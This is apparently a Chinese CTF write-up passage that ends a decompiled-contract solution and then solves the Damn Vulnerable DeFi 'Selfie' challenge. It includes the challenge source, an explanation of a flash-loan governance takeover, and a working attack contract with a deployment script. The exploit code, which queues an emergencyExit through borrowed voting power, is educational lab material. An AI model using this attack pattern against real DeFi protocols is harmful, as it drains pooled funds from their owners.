                0x6281bb87();
            } else if (0x62f93ce4 == v0) {
                0x62f93ce4();
            } else if (0x64d98f6e == v0) {
                isSolved();
            }
        } else if (0xcfaaa266 > v0) {
            if (0x851f41e6 > v0) {
                if (0x6810f532 == v0) {
                    0x6810f532();
                } else if (0x713b988b == v0) {
                    mutate(uint256);
                } else if (0x72f7a030 == v0) {
                    guarded();
                }
            } else if (0x851f41e6 == v0) {
                0x851f41e6();
            } else if (0x9c40c60a == v0) {
                0x9c40c60a();
            } else if (0xaa2b1aaf == v0) {
                0xaa2b1aaf();
            } else if (0xabac7b5e == v0) {
                0xabac7b5e();
            }
        } else if (0xeee97206 > v0) {
            if (0xcfaaa266 == v0) {
                TransferOwnership(address);
            } else if (0xd0e30db0 == v0) {
                deposit();
            } else if (0xd4538cb6 == v0) {
                0xd4538cb6();
            } else if (0xe5ac9ef1 == v0) {
                0xe5ac9ef1();
            }
        } else if (0xeee97206 == v0) {
            double(uint256);
        } else if (0xf40a049d == v0) {
            0xf40a049d();
        } else if (0xf7be2771 == v0) {
            0xf7be2771();
        } else if (0xf9df1906 == v0) {
            0xf9df1906();
        }
    }
    if (0x12345678 != function_selector >> 224) {
        exit;
    } else {
        return 1;
    }
}

```

反编译里




**只要调用 **<code>**setNumber(uint256)**</code>**，并且参数 “等于 msg.sender”，它就会把 solved 置 1**

EVM 里 `msg.sender` 是 20 字节地址。这里比较时会当成整数比较，所以要传：

* `uint256(uint160(msg.sender))`

用 cast 最简单的打法：**把地址当成 0x… 的整数直接传**（cast 会把它当成 uint256 编码）

## 打通指令

```solidity
cast send $实例地址 "setNumber(uint256)" $我的地址 --rpc-url $RPC --private-key $PK
```

# Selfie

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.25;

import {DamnValuableVotes} from "./DamnValuableVotes.sol";
import {SimpleGovernance} from "./SimpleGovernance.sol";
import {SelfiePool} from "./SelfiePool.sol";

//0x5FbDB2315678afecb367f032d93F642f64180aa3
contract Setup {
    uint256 public constant TOKEN_INITIAL_SUPPLY = 2_000_000e18;
    uint256 public constant TOKENS_IN_POOL = 1_500_000e18;

    DamnValuableVotes public token;
    SimpleGovernance public governance;
    SelfiePool public pool;


    constructor() {
       
        // Deploy token
        token = new DamnValuableVotes(TOKEN_INITIAL_SUPPLY);

        // Deploy governance
        governance = new SimpleGovernance(token);

        // Deploy pool
        pool = new SelfiePool(token, governance);

        // Fund pool
        token.transfer(address(pool), TOKENS_IN_POOL);
    }

    function isSolved() external view returns (bool) {
        return token.balanceOf(address(pool)) == 0;
    }
}
```

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {ReentrancyGuard} from "@openzeppelin/contracts/utils/ReentrancyGuard.sol";
import {IERC3156FlashLender} from "@openzeppelin/contracts/interfaces/IERC3156FlashLender.sol";
import {IERC3156FlashBorrower} from "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";
import {SimpleGovernance} from "./SimpleGovernance.sol";

contract SelfiePool is IERC3156FlashLender, ReentrancyGuard {
    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");

    IERC20 public immutable token;
    SimpleGovernance public immutable governance;

    error RepayFailed();
    error CallerNotGovernance();
    error UnsupportedCurrency();
    error CallbackFailed();

    event EmergencyExit(address indexed receiver, uint256 amount);

    modifier onlyGovernance() {
        if (msg.sender != address(governance)) {
            revert CallerNotGovernance();
        }
        _;
    }

    constructor(IERC20 _token, SimpleGovernance _governance) {
        token = _token;
        governance = _governance;
    }

    function maxFlashLoan(address _token) external view returns (uint256) {
        if (address(token) == _token) {
            return token.balanceOf(address(this));
        }
        return 0;
    }

    function flashFee(address _token, uint256) external view returns (uint256) {
        if (address(token) != _token) {
            revert UnsupportedCurrency();
        }
        return 0;
    }

    //关键函数
    function flashLoan(IERC3156FlashBorrower _receiver, address _token, uint256 _amount, bytes calldata _data)
        external
        nonReentrant
        returns (bool)
    {
        if (_token != address(token)) {
            revert UnsupportedCurrency();
        }

        token.transfer(address(_receiver), _amount);
        if (_receiver.onFlashLoan(msg.sender, _token, _amount, 0, _data) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (!token.transferFrom(address(_receiver), address(this), _amount)) {
            revert RepayFailed();
        }

        return true;
    }

    function emergencyExit(address receiver) external onlyGovernance {
        uint256 amount = token.balanceOf(address(this));
        token.transfer(receiver, amount);

        emit EmergencyExit(receiver, amount);
    }
}

```

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {DamnValuableVotes} from "./DamnValuableVotes.sol";
import {ISimpleGovernance} from "./ISimpleGovernance.sol";
import {Address} from "@openzeppelin/contracts/utils/Address.sol";

contract SimpleGovernance is ISimpleGovernance {
    using Address for address;

    uint256 private constant ACTION_DELAY_IN_SECONDS = 2 days;

    DamnValuableVotes private _votingToken;
    uint256 private _actionCounter;
    mapping(uint256 => GovernanceAction) private _actions;

    constructor(DamnValuableVotes votingToken) {
        _votingToken = votingToken;
        _actionCounter = 1;
    }

    function queueAction(address target, uint128 value, bytes calldata data) external returns (uint256 actionId) {
        if (!_hasEnoughVotes(msg.sender)) {
            revert NotEnoughVotes(msg.sender);
        }

        if (target == address(this)) {
            revert InvalidTarget();
        }

        if (data.length > 0 && target.code.length == 0) {
            revert TargetMustHaveCode();
        }

        actionId = _actionCounter;

        _actions[actionId] = GovernanceAction({
            target: target,
            value: value,
            proposedAt: uint64(block.timestamp),
            executedAt: 0,
            data: data
        });

        unchecked {
            _actionCounter++;
        }

        emit ActionQueued(actionId, msg.sender);
    }

    function executeAction(uint256 actionId) external payable returns (bytes memory) {
        if (!_canBeExecuted(actionId)) {
            revert CannotExecute(actionId);
        }

        GovernanceAction storage actionToExecute = _actions[actionId];
        actionToExecute.executedAt = uint64(block.timestamp);

        emit ActionExecuted(actionId, msg.sender);

        return actionToExecute.target.functionCallWithValue(actionToExecute.data, actionToExecute.value);
    }

    function getActionDelay() external pure returns (uint256) {
        return ACTION_DELAY_IN_SECONDS;
    }

    function getVotingToken() external view returns (address) {
        return address(_votingToken);
    }

    function getAction(uint256 actionId) external view returns (GovernanceAction memory) {
        return _actions[actionId];
    }

    function getActionCounter() external view returns (uint256) {
        return _actionCounter;
    }

 

    function _canBeExecuted(uint256 actionId) private view returns (bool) {
        GovernanceAction memory actionToExecute = _actions[actionId];

        if (actionToExecute.proposedAt == 0) return false;

        uint64 timeDelta;
        unchecked {
            timeDelta = uint64(block.timestamp) - actionToExecute.proposedAt;
        }

        return actionToExecute.executedAt == 0 && timeDelta >= ACTION_DELAY_IN_SECONDS;
    }

    function _hasEnoughVotes(address who) private view returns (bool) {
        uint256 balance = _votingToken.getVotes(who);
        uint256 halfTotalSupply = _votingToken.totalSupply() / 2;//必须>50% 投票权，至少需要 1,000,001
        return balance > halfTotalSupply;
    }
}

```

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {ERC20Permit} from "@openzeppelin/contracts/token/ERC20/extensions/ERC20Permit.sol";
import {ERC20Votes} from "@openzeppelin/contracts/token/ERC20/extensions/ERC20Votes.sol";
import {Nonces} from "@openzeppelin/contracts/utils/Nonces.sol";

contract DamnValuableVotes is ERC20, ERC20Permit, ERC20Votes {
    constructor(uint256 supply) ERC20("DamnValuableVotes", "DVV") ERC20Permit("DamnValuableVotes") {
        _mint(msg.sender, supply);
    }

    function _update(address from, address to, uint256 amount) internal override(ERC20, ERC20Votes) {
        super._update(from, to, amount);
    }

    function nonces(address owner) public view virtual override(ERC20Permit, Nonces) returns (uint256) {
        return super.nonces(owner);
    }
}

```

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

interface ISimpleGovernance {
    struct GovernanceAction {
        uint128 value;
        uint64 proposedAt;
        uint64 executedAt;
        address target;
        bytes data;
    }

    error NotEnoughVotes(address who);
    error CannotExecute(uint256 actionId);
    error InvalidTarget();
    error TargetMustHaveCode();
    error ActionFailed(uint256 actionId);

    event ActionQueued(uint256 actionId, address indexed caller);
    event ActionExecuted(uint256 actionId, address indexed caller);

    function queueAction(address target, uint128 value, bytes calldata data) external returns (uint256 actionId);
    function executeAction(uint256 actionId) external payable returns (bytes memory returndata);
    function getActionDelay() external view returns (uint256 delay);
    function getVotingToken() external view returns (address token);
    function getAction(uint256 actionId) external view returns (GovernanceAction memory action);
    function getActionCounter() external view returns (uint256);
}

```

## 思路

首先看`issolved()`,要求把pool池子的token掏空

```solidity
return token.balanceOf(address(pool)) == 0;
```

setup初始,pool里有1\_500\_000e18这么多token,那么就看谁有转走这些token的权利

来看selfiePool里的相关函数:

```solidity
 function emergencyExit(address receiver) external onlyGovernance {
        uint256 amount = token.balanceOf(address(this));
        token.transfer(receiver, amount);

        emit EmergencyExit(receiver, amount);
    }
```

注意到有一个`onlyGovernance`标识符,也就是说只有governance可以动pool里的token,那也就是说我们要想办法让 governance 合约替我们调用 `pool.emergencyExit(attacker)`

接着我们看`SimpleGovernance.queueAction`：

```solidity
function queueAction(address target, uint128 value, bytes calldata data) external returns (uint256 actionId) {
  if (!_hasEnoughVotes(msg.sender)) {
    revert NotEnoughVotes(msg.sender);
  }
  ...
}
```

也就是说，**不是谁都能排治理提案**，必须先通过 `_hasEnoughVotes(msg.sender)`

```solidity
function _hasEnoughVotes(address who) private view returns (bool) {
  uint256 balance = _votingToken.getVotes(who);
  uint256 halfTotalSupply = _votingToken.totalSupply() / 2;
  return balance > halfTotalSupply;
}
```

注意这里检查的不是 `balanceOf(who)`，而是：

```solidity
_votingToken.getVotes(who)
```

并且要求：

```solidity
balance > totalSupply / 2
```

总供应量是：

```solidity
TOKEN_INITIAL_SUPPLY = 2_000_000e18;
```

所以必须满足：

**投票权 > 1,000,000e18**

至少要超过一半，也就是至少 `1,000,000e18 + 1` 那个级别

那现在的目标就明确了,我们需要拿到至少一半以上的投票权,然后调用函数提走token

`queueAction` 要求提案人拥有超过总代币一半的投票权。总代币是 200 万，过半就是超过 100 万。而池子里正好有 150 万 token。

pool 支持 flashLoan，所以我们可以临时借出这 150 万 token。flashLoan 的执行顺序是先转币给借款人，再调用借款人的 `onFlashLoan` 回调，最后才检查还款。也就是说，在回调函数里，攻击合约会短暂持有 150 万 token。

由于这个 token 是 `ERC20Votes`，治理读取的是 `getVotes`，不是 `balanceOf`，所以在回调里要先 `delegate(address(this))`，把投票权委托给自己。这样攻击合约就拥有了超过一半的治理票数。

接着在回调里调用 `queueAction`，把 `pool.emergencyExit(attacker)` 这个恶意操作加入治理队列。然后再 `approve` 给 pool，把 flashLoan 归还。

虽然 token 被还回去了，但治理系统只在 `queueAction` 的时候检查票数，后续 `executeAction` 不会重新检查，所以这个恶意提案仍然有效。

等两天治理延迟过去后，调用 `executeAction(actionId)`，governance 合约就会以合法身份调用 `pool.emergencyExit(attacker)`，最终把池子中全部 token 转给攻击合约,pool里的token清零

## poc

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.25;

import {Setup} from "./Setup.sol";
import {SelfiePool} from "./SelfiePool.sol";
import {DamnValuableVotes} from "./DamnValuableVotes.sol";
import {SimpleGovernance} from "./SimpleGovernance.sol";
import {IERC3156FlashBorrower} from "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";

contract Attack {
    Setup public setup;
    SelfiePool public pool;
    DamnValuableVotes public token;
    SimpleGovernance public governance;

    uint256 actionId;

    constructor(address addr) {
        setup = Setup(addr);
        pool = SelfiePool(setup.pool());
        token = DamnValuableVotes(setup.token());
        governance = SimpleGovernance(setup.governance());
    }

    function attack() external {
        uint256 amount = token.balanceOf(address(pool));

        pool.flashLoan(IERC3156FlashBorrower(address(this)), address(token), amount, "");
    }

    function onFlashLoan(address, address, uint256 amount, uint256, bytes calldata) external returns (bytes32) {
        // 获取投票权
        token.delegate(address(this));
        // 提交治理提案
        actionId =
            governance.queueAction(address(pool), 0, abi.encodeWithSignature("emergencyExit(address)", address(this)));
        // 归还 flashloan
        token.approve(address(pool), amount);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function execute() external {
        governance.executeAction(actionId);
    }
}

```

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.25;

import {Script} from "forge-std/Script.sol";
import {Attack} from "../src/1.sol";

contract Attacksc is Script {
    function run() external {
        vm.startBroadcast();
        Attack attack = new Attack(0x5FbDB2315678afecb367f032d93F642f64180aa3);
        attack.attack();
        vm.stopBroadcast();

        // vm.roll(block.number + 1);
        // vm.warp(block.timestamp + 2 days + 1);

        vm.startBroadcast();
        Attack attack = Attack(0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512);

        attack.execute();
        vm.stopBroadcast();
    }
}

```

其中脚本要forge script两次,先把下边那部分注释,然后终端用这个推进时间

```solidity
 cast rpc evm_increaseTime 172800
 cast rpc evm_mine
```

然后取消下部分注释,把上部分注释掉,再forgescript一次,就可以了


> 更新: 2026-03-09 00:13:51  
> 原文: <https://www.yuque.com/xiaoyuhushenfu/yzin4n/cvthz9ey4osmkwng>